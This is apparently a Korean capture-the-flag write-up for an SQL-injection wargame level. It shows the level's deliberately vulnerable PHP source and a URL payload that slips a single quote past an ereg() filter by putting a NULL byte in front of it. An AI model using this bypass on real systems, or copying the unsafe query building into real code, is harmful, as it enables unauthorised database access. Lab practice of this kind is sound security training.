

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/\\\|prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(@ereg("'",$_GET[id])) exit("HeHe"); 
  if(@ereg("'",$_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>

이번에도 싱글쿼터를 필터링하는데 preg_match()를 안 쓰고 ereg()를 썻다는 것이 힌트라고 생각했다.
ereg()는 문자열 끝까지 검사하는데 이 때 문자열끝을 NULL문자로 판단하므로 임의적으로 NULL문자를 넣어서
문장의 끝을 속인 후 참값을 반환받으면 성공이다.

https://los.eagle-jump.org/zombie_assassin_1~a.php?id=%00a'='a&pw=%00a'=‘a
-> query : select id from prob_zombie_assassin where id='a'='a' and pw='a'='a'
query : select id from prob_zombie_assassin where id='' and pw=''